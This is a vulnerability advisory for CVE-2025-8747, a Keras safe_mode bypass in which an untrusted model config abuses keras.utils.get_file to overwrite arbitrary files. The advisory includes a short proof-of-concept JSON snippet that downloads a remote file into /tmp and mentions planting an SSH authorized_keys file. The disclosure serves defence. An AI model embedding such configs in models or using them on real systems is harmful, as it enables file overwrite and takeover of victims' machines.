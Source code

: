 ```yaml
---
description: CVE-2025-8747 High severity. Keras untrusted model arbitrary file write
title: Keras untrusted model arbitrary file write
date_published: "2025-08-12"
last_updated: "2025-08-12"
xray_id:
vul_id: CVE-2025-8747
cvss: 8.8
severity: high
discovered_by: Andrey Polkovnichenko
type: vulnerability
---
```

## Summary
This vulnerability allows attackers to perform an arbitrary file overwrite when an untrusted Keras v3 model is loaded, even when `safe_mode` is enabled. This can lead to arbitrary code execution in many cases.



## Component

[keras](https://github.com/keras-team/keras/)



## Affected versions

 [3.0.0,3.11.0)



## Description

Keras’ [safe_mode](https://www.tensorflow.org/api_docs/python/tf/keras/models/load_model) flag is designed to disallow unsafe lambda deserialization - specifically by rejecting any arbitrary embedded Python code, marked by the “**lambda**” class name.

A fix to CVE-2025-1550, allowing deserialization of the object only from internal Keras modules, was introduced in the commit [bb340d6780fdd6e115f2f4f78d8dbe374971c930](https://github.com/keras-team/keras/commit/bb340d6780fdd6e115f2f4f78d8dbe374971c930).

```
package = module.split(".", maxsplit=1)[0]
if package in {"keras", "keras_hub", "keras_cv", "keras_nlp"}:
```

However, it is still possible to exploit model loading, for example by reusing the internal Keras function `keras.utils.get_file`, and download remote files to an attacker-controlled location.

This allows for arbitrary file overwrite which in many cases could also lead to remote code execution. For example, an attacker would be able to download a malicious `authorized_keys` file into the user’s SSH folder, giving the attacker full SSH access to the victim’s machine.
Since the model does not contain arbitrary Python code, this scenario will not be blocked by “safe_mode”. It will bypass the latest fix since it uses a function from one of the approved modules (`keras`).



## PoC

The following truncated `config.json` will cause a remote file download from https://raw.githubusercontent.com/andr3colonel/when_you_watch_computer/refs/heads/master/index.js to the local `/tmp` folder, by sending arbitrary arguments to Keras’ builtin function `keras.utils.get_file()` -

```json
  {
                "class_name": "Lambda",
                "config": {
                    "arguments": {
                        "origin": "https://raw.githubusercontent.com/andr3colonel/when_you_watch_computer/refs/heads/master/index.js",
                        "cache_dir":"/tmp",
                        "cache_subdir":"",
                        "force_download": true},
                    "function": {
                        "class_name": "function",
                        "config": "get_file",
                        "module": "keras.utils"
                    }
                },
```



## Vulnerability Mitigations

No mitigations are supplied for this issue



## References

[Advisory](https://github.com/keras-team/keras/security/advisories/GHSA-c9rc-mg46-23w3)

[Technical blog](https://jfrog.com/blog/keras-safe_mode-bypass-vulnerability/)

